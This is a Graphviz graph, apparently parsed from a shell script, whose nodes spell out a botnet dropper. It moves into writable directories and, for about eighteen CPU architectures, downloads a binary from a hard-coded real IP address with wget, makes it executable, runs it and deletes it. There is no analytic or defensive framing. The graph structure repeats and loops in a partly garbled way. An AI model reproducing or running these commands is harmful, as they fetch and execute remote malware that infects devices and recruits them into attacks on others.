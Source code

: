 digraph {
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 10 [label="||,"];
10 [label="wget http://46.183.223.246/jackmymips "];
10 -> 12 [label=";,"];
12 [label="chmod +x jackmymips "];
12 -> 14 [label=";,"];
14 [label="./jackmymips "];
14 -> 16 [label=";,"];
16 [label="rm -rf jackmymips "];
16 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 28 [label="||,"];
28 [label="wget http://46.183.223.246/jackmymips64 "];
28 -> 30 [label=";,"];
30 [label="chmod +x jackmymips64 "];
30 -> 32 [label=";,"];
32 [label="./jackmymips64 "];
32 -> 34 [label=";,"];
34 [label="rm -rf jackmymips64 "];
34 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 46 [label="||,"];
46 [label="wget http://46.183.223.246/jackmymipsel "];
46 -> 48 [label=";,"];
48 [label="chmod +x jackmymipsel "];
48 -> 50 [label=";,"];
50 [label="./jackmymipsel "];
50 -> 52 [label=";,"];
52 [label="rm -rf jackmymipsel "];
52 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 64 [label="||,"];
64 [label="wget http://46.183.223.246/jackmysh2eb "];
64 -> 66 [label=";,"];
66 [label="chmod +x jackmysh2eb "];
66 -> 68 [label=";,"];
68 [label="./jackmysh2eb "];
68 -> 70 [label=";,"];
70 [label="rm -rf jackmysh2eb "];
70 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 82 [label="||,"];
82 [label="wget http://46.183.223.246/jackmysh2elf "];
82 -> 84 [label=";,"];
84 [label="chmod +x jackmysh2elf "];
84 -> 86 [label=";,"];
86 [label="./jackmysh2elf "];
86 -> 88 [label=";,"];
88 [label="rm -rf jackmysh2elf "];
88 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 100 [label="||,"];
100 [label="wget http://46.183.223.246/jackmysh4 "];
100 -> 102 [label=";,"];
102 [label="chmod +x jackmysh4 "];
102 -> 104 [label=";,"];
104 [label="./jackmysh4 "];
104 -> 106 [label=";,"];
106 [label="rm -rf jackmysh4 "];
106 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 118 [label="||,"];
118 [label="wget http://46.183.223.246/jackmyx86 "];
118 -> 120 [label=";,"];
120 [label="chmod +x jackmyx86 "];
120 -> 122 [label=";,"];
122 [label="./jackmyx86 "];
122 -> 124 [label=";,"];
124 [label="rm -rf jackmyx86 "];
124 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 136 [label="||,"];
136 [label="wget http://46.183.223.246/jackmyi486 "];
136 -> 138 [label=";,"];
138 [label="chmod +x jackmyi486 "];
138 -> 140 [label=";,"];
140 [label="./jackmyi486 "];
140 -> 142 [label=";,"];
142 [label="rm -rf jackmyi486 "];
142 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 154 [label="||,"];
154 [label="wget http://46.183.223.246/jackmyi586 "];
154 -> 156 [label=";,"];
156 [label="chmod +x jackmyi586 "];
156 -> 158 [label=";,"];
158 [label="./jackmyi586 "];
158 -> 160 [label=";,"];
160 [label="rm -rf jackmyi586 "];
160 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 172 [label="||,"];
172 [label="wget http://46.183.223.246/jackmyi686 "];
172 -> 174 [label=";,"];
174 [label="chmod +x jackmyi686 "];
174 -> 176 [label=";,"];
176 [label="./jackmyi686 "];
176 -> 178 [label=";,"];
178 [label="rm -rf jackmyi686 "];
178 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 190 [label="||,"];
190 [label="wget http://46.183.223.246/jackmypowerpc "];
190 -> 192 [label=";,"];
192 [label="chmod +x jackmypowerpc "];
192 -> 194 [label=";,"];
194 [label="./jackmypowerpc "];
194 -> 196 [label=";,"];
196 [label="rm -rf jackmypowerpc "];
196 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 208 [label="||,"];
208 [label="wget http://46.183.223.246/jackmypowerpc440fp "];
208 -> 210 [label=";,"];
210 [label="chmod +x jackmypowerpc440fp "];
210 -> 212 [label=";,"];
212 [label="./jackmypowerpc440fp "];
212 -> 214 [label=";,"];
214 [label="rm -rf jackmypowerpc440fp "];
214 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 226 [label="||,"];
226 [label="wget http://46.183.223.246/jackmym86k "];
226 -> 228 [label=";,"];
228 [label="chmod +x jackmym86k "];
228 -> 230 [label=";,"];
230 [label="./jackmym86k "];
230 -> 232 [label=";,"];
232 [label="rm -rf jackmym86k "];
232 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 244 [label="||,"];
244 [label="wget http://46.183.223.246/jackmysparc "];
244 -> 246 [label=";,"];
246 [label="chmod +x jackmysparc "];
246 -> 248 [label=";,"];
248 [label="./jackmysparc "];
248 -> 250 [label=";,"];
250 [label="rm -rf jackmysparc "];
250 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 262 [label="||,"];
262 [label="wget http://46.183.223.246/jackmyarmv4 "];
262 -> 264 [label=";,"];
264 [label="chmod +x jackmyarmv4 "];
264 -> 266 [label=";,"];
266 [label="./jackmyarmv4 "];
266 -> 268 [label=";,"];
268 [label="rm -rf jackmyarmv4 "];
268 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 280 [label="||,"];
280 [label="wget http://46.183.223.246/jackmyarmv4tl "];
280 -> 282 [label=";,"];
282 [label="chmod +x jackmyarmv4tl "];
282 -> 284 [label=";,"];
284 [label="./jackmyarmv4tl "];
284 -> 286 [label=";,"];
286 [label="rm -rf jackmyarmv4tl "];
286 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 298 [label="||,"];
298 [label="wget http://46.183.223.246/jackmyarmv5 "];
298 -> 300 [label=";,"];
300 [label="chmod +x jackmyarmv5 "];
300 -> 302 [label=";,"];
302 [label="./jackmyarmv5 "];
302 -> 304 [label=";,"];
304 [label="rm -rf jackmyarmv5 "];
304 -> 306 [label=";,"];
306 [label="cd /tmp "];
306 -> 306
308 [label="cd /var/system "];
308 -> 310 [label="||,"];
310 [label="cd /mnt "];
310 -> 312 [label="||,"];
312 [label="cd /root "];
312 -> 314 [label="||,"];
314 [label="cd / "];
314 -> 316 [label="||,"];
316 [label="wget http://46.183.223.246/jackmyarmv6 "];
316 -> 318 [label=";,"];
318 [label="chmod +x jackmyarmv6 "];
318 -> 320 [label=";,"];
320 [label="./jackmyarmv6 "];
320 -> 321 [label=";,"];
}
